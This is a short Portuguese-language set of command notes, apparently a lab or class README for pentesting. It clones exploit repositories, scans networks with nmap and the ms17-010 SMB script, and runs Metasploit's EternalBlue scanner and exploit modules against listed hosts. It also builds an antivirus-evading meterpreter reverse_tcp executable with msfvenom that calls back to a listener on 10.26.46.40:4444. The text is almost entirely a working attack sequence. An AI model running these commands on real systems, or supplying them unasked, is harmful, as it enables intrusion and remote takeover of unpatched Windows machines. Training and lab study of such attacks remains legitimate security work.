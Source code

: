 git clone https://github.com/vaamonde/nmap-nse-scripts
 
git clone https://github.com/vaamonde/exploit

git clone https://github.com/vaamonde/Eternalblue-Doublepulsar-Metasploit

git clone https://github.com/vaamonde/FakeImageExploiter

Verificar versão do NMAP:<br>	
nmap --version<br>

Manual do NMAP<br>
man nmap<br>
				
nmap -O -A -sV 10.26.46.0/24<br>
-O = detecção do Sistema Operacional<br>
-A = detecção do Sistema Operacional e Versão<br>
-sV = detecção do Sistema Operacional e Versão<br>

nmap -sS 10.26.46.45/24<br>
-sS = detecção de portas TCP<br>

nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse localhost<br>
-d = habilita a Debug (log detalhado, pode ir até a opção 9)<br>
-sC = habilitar o rastreamento de scan de portas<br>
-p = número da porta a rastrear (445 - Microsoft-df - SMB/CIFS)<br>
--open = verificar somente portas abertas<br>
--max-hostgroup = número máximo de grupos para o scaneamento<br>
--script = indicar script remoto para o scan<br>

nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse 192.168.1.0/24<br>

nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse 192.168.1.150<br>

Atualizar o Metasploit:		msfupdate<br>
Acessar o Metasploit:		msfconsole<br>
Reload dos Exploit:		reload_all<br>
Acessar o Modo Scan:<br>	use auxiliary/scanner/smb/smb_ms17_010<br>
				show options<br>
				set rhosts 192.168.1.1<br>
				exploit<br>
							
Acessar o modo Exploit:	<br>	use exploit/ms17_010/ms_17_010<br>
				show options<br>
				set rhosts 192.168.1.1<br>
				exploit<br>
				
use exploit/multi/handler 
set PAYLOAD windows/x64/meterpreter/reverse_tcp
show options
set LHOST 10.26.46.
msfvenom -h

#Novo terminal
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.26.46.40 LPORT=4444 -f exe -e x64/shikata_ga_nai -i 10 > /root/exploit.exe

#Copiar arquivo eicar.com para o Windows, pode usar o exploit/ms17_010 com a opção upload ou acessar via pasta compartilhada.

